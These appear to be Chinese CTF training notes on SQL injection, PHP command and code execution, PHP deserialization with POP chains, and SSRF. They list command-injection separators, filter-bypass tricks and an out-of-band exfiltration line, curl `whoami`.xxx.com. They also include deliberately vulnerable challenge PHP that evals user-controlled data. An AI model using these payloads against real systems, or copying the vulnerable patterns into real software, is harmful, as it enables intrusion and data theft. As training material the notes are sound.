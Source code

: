 ### sql注入原理与进阶
知识点-对应练习:
- 万能密码 
- 常规sql注入-sqli-labs前俩关
- 报错注入-sqli-labs第五关 [[培训/报错注入]]
- 盲注(布尔盲注,时间盲注) [[培训/盲注脚本]] [[培训/[CISCN 2019华北Day2]Web1]] nssctf
- 堆叠注入-[[培训/强网杯 2019随便注]]
总结:sql语句拼接导致,预编译可直接阻止,但是预编译在order by存在时无法使用,此时只能过滤

练习:sqli-lab靶场
http://ip/sqli-labs/
[[通关流程]]
真题复现:


### php代码执行与命令执行
总结:
命令执行:
```
system()，passthru()，exec()，pcntl_exec()，shell_exec()，popen()/proc_popen()，反引号 ``
```
代码执行:
```
eval()，assert()，call_user_func()，create_function()，array_map()，call_user_func_array()，array_filter()，uasort()，preg_replace()
```
只要上述函数里的变量可控,即有可能存在漏洞

命令执行
```python
; ` & || | $()
#换行
%0A
#回车
%0d
#局部变量
a=l;b=s;$a$b
#curl 外带
curl `whoami`.xxx.com
```

关键词过滤
```python
ca\t fl\ag

```
练习:dvwa

真题复现:
[UUCTF 2022 新生赛]ez_rce [[培训/[UUCTF 2022 新生赛]ez_rce]]
[GXYCTF 2019]Ping Ping Ping nssctf [[培训/pingpingping]]


### php反序列化综合
序列化示例代码
```php
<?php 
    class test
    {
        private $flag = "flag{233}";
        public $a = "aaa";
        static $b = "bbb";
    }

    $test = new test;
    $data = serialize($test);
    echo $data;
 ?>

```

键:数量:值

反序列化代码
```php
<?php 
    $str = 'O%3A4%3A%22test%22%3A2%3A%7Bs%3A10%3A%22%00test%00flag%22%3Bs%3A9%3A%22flag%7B233%7D%22%3Bs%3A1%3A%22a%22%3Bs%3A3%3A%22aaa%22%3B%7D';
    $data = urldecode($str);
    $obj = unserialize($data);

    var_dump($obj);
 ?>
```

魔术方法
```php
__construct()//创建对象时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__invoke() //当脚本尝试将对象调用为函数时触发

```

练习:
```php
<?php
error_reporting(0);
$KEY = "D0g3!!!";
$str = $_GET['str'];
if (unserialize($str) === "$KEY")
{
    echo "成功";
}
show_source(__FILE__);
```

#### 进阶:
绕过__wakeup():
> 利用条件：
PHP5 < 5.6.25
​PHP7 < 7.0.10

当序列化字符串中表示对象属性个数的数字值大于真实类中属性的个数时就会跳过__wakeup的执行，
```php
<?php 
class SoFun{ 
  protected $file='index.php';
  function __destruct(){ 
    if(!empty($this->file)) {
      if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
        show_source(dirname (__FILE__).'/'.$this ->file);
      else
        die('Wrong filename.');
    }
  }  
  function __wakeup(){
   $this-> file='index.php';
  } 
  public function __toString()
    return '' ;
  }
}     
if (!isset($_GET['file'])){ 
  show_source('index.php');
}
else{ 
  $file=base64_decode($_GET['file']); 
  echo unserialize($file); 
}
```

```php
<?php
show_source(__FILE__);

###very___so___easy!!!!
class test{
    public $a;
    public $b;
    public $c;
    public function __construct(){
        $this->a=1;
        $this->b=2;
        $this->c=3;
    }
    public function __wakeup(){
        $this->a='';
    }
    public function __destruct(){
        $this->b=$this->c;
        eval($this->a);
    }
}
$a=$_GET['a'];
if(!preg_match('/test":3/i',$a)){
    die("你输入的不正确！！！搞什么！！");
}
$bbb=unserialize($_GET['a']);
```

pop链构造:
```php
<?php
class start_gg
{
        public $mod1;
        public $mod2;
        public function __destruct()
        {
                $this->mod1->test1();
        }
}
class Call
{
        public $mod1;
        public $mod2;
        public function test1()
    {
            $this->mod1->test2();
    }
}
class funct
{
        public $mod1;
        public $mod2;
        public function __call($test2,$arr)
        {
                $s1 = $this->mod1;
                $s1();
        }
}
class func
{
        public $mod1;
        public $mod2;
        public function __invoke()
        {
                $this->mod2 = "字符串拼接".$this->mod1;
        } 
}
class string1
{
        public $str1;
        public $str2;
        public function __toString()
        {
                $this->str1->get_flag();
                return "1";
        }
}
class GetFlag
{
        public function get_flag()
        {
                echo "flag:"."xxxxxxxxxxxx";
        }
}
$a = $_GET['string'];
unserialize($a);
?>
```


### ssrf(Server Side Request Forgery)服务端请求伪造


真题:
[[培训/[羊城杯 2020]easyser]]
[NSSCTF 2nd]MyBox
[SWPU 2016]web7


